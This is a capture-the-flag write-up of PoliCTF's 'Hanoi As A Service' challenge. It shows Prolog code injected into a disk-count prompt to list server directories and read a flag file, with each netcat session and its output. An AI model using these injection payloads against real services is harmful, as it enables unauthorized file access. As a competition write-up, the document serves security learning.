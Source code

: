 ### Solved by barrebas

Hanoi As A Service was a 50 point pwnable in PoliCTF and gave me a reason to hate PROLOG.

<!--more-->

We're given `nc haas.polictf.it 80` as point of attack. Let's start:

```bash
bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?

ERROR: Prolog initialisation failed:
ERROR: Syntax error: Unexpected end of clause
ERROR: hanoi() 
ERROR: ** here **
ERROR: .
```

Interesting. I now know I'm up against some Prolog program. Let's see if we can inject Prolog code:


```bash
bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), hanoi(2). 
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
```

Looks like we can! Now, since I never learned Prolog as a kid (I'm more of a BASIC boy), I searched around for code examples. I couldn't just grab the flag so I started with enumerating.

```bash
bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), expand_file_name('/home/*', S), write(S). 
[/home/ctf,/home/ubuntu]

# enumerate /home/ctf:

bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), expand_file_name('/home/ctf/*', S), write(S). %
[/home/ctf/haas]bas@tritonal:~$ 

# enumerate /home/ctf/haas:

bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), expand_file_name('/home/ctf/haas/*', S), write(S).  
[/home/ctf/haas/haas,/home/ctf/haas/haas-proxy.py,/home/ctf/haas/jhknsjdfhef_flag_here]
```

I now had the location of the flag. Now, to read it... Turns out Prolog does not have a "normal" way to read arbitrary files (it expects Prolog terms or something). I searched for a good while and finally:

```bash
bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), open('/home/ctf/haas/jhknsjdfhef_flag_here', read, S), read_line_to_codes(S, T), write(T). 
[102,108,97,103,123,80,114,48,103,114,97,109,109,49,110,103,95,105,110,95,108,48,103,49,99,95,49,115,95,99,48,48,108,125]
```

Back to python!

```python
>>> a = [102,108,97,103,123,80,114,48,103,114,97,109,109,49,110,103,95,105,110,95,108,48,103,49,99,95,49,115,95,99,48,48,108,125]
>>> print "".join([chr(x) for x in a])
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
```

50 points and first blood for Team Vulnhub. 


